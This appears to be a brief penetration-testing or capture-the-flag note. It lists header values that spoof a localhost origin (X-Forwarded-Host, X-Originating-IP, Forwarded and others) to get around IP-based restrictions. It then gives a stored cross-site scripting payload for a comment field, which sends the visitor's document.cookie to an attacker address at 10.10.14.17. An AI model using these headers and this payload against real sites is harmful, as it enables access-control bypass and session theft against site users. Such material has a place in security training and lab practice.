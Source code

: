 ![](2021-02-04-14-50-28.png)

X-Forwarder-For: 127.0.0.1
X-Forwarded-Host: localhost
Forwarded: for=127.0.0.1;host=localhost
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Origin: http://localhost
Referer: http://localhost



in comment:
<img src=x onerror="this.src='http://10.10.14.17/?c='+document.cookie;"/>

